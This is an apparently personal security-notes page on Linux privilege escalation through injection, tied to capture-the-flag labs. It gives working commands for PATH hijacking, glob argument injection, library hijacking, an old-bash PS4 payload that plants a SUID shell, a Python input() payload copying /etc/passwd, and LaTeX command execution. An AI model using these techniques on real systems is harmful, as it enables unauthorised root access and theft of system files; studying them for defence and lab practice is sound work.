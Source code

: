 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](../topics/tasks.md) or a [program with the SUID bit](../topics/perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![bash_system_1](../../../../_badges/rootme/app_script/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../../_badges/rootme/app_script/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxstrengthtraining](../../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.
</div><div>

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```

</div></div>

<hr class="sep-both">

## Library Hijacking

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

<div class="row row-cols-lg-2"><div>

Shared Object Hijacking or Linker Hijacking is a technique in which we load a malicious `.so` file when executing a potentially misconfigured binary such as `ls` in a potentially misconfigured environment.

A environment is misconfigured when we have write access to a folder defined in `/etc/ld.so.conf`. Such folders are checked in order when looking for a `.so`. It includes standard folders such as `/lib` or `/usr/lib` and may include non-standard writable paths.

If we find a suspicious binary, we can examine it:

```ps
$ ldd <binary>
$ readelf -d <binary>
```

If the binary has the `RUNPATH` folder set and it points to a file/folder we can write to, then we can load our `.so`.
</div><div>

To write a static binary (`.so`), [refer to rootbash#static binary](../utils/rootbash.md#root-bash-static-library) section.

Misconfigured Python installations may also be vulnerable if we are able to write python scripts in the module path.

```shell!
$ python3 -c 'import sys; print("\n".join(sys.path))'
```

Check every imported package using `pip3 show <package>`. If the package is imported from a location that is below a folder in which you can write to, then you can inject your own code.
</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

As a reminder, if you can execute commands, then refer to [command injection](/cybersecurity/red-team/s3.exploitation/vulns/injection/command.md) for a list of tips and tricks.

<br>

#### Python input() function

[![python_input](../../../../_badges/rootme/app_script/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```

<br>

#### Latex directives

[![latex_input](../../../../_badges/rootme/app_script/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
[![latex_command_execution](../../../../_badges/rootme/app_script/latex_command_execution.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

If we can compile LaTeX, we may be able to

* Execute commands (`\immediate\write18{xxx > buffer}`, `\verbatiminput{buffer}` or using `xxx 1>&2`).
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)

<br>

#### Bash Script Arguments

[![bash_unquoted](../../../../_badges/rootme/app_script/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div><div>

#### Python format() function

[![python_format_string](../../../../_badges/hacktricks/generic_methodologies_and_resources/python/bypass_python_sandboxes/python_format_string.svg)](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string)
[![python_format_string](../../../../_badges/rootme/app_script/python_format_string.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-format-string)

The python format function may be exploited to access variables from the code and display them. In the example below, we access the method `__init__` while any methods of the class would work. We can then relatively access other members of the class, or move up and access members of the parent `global` namespace.

```py
class X:
   pass
       
instance = X()
"{x.__init__}".format(x=x)
"{x.__init__.__globals__}".format(x=x)
"{x.__init__.__globals__[X]}".format(x=x)
"{x.__init__.__globals__[X][index]}".format(x=x) # one by one
```

We can alternatively use error messages.

* Since Python `3.10`, an additional message body was added when using an invalid string after "`:`".

```py
>>> "{x:toto}".format(x=5)
# ValueError: Invalid format specifier 'toto' for object of type 'int'
```

* For every version of python, an exception is raised when we use an unknown format code <small>(e.g. `s` for string, as in "%s")</small>.

```py
>>> "{x:s}".format(x=5)
# ValueError: Unknown format code 's' for object of type 'int'
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [axcheron format strings](https://axcheron.github.io/exploit-101-format-strings/)
</div><div>
</div></div>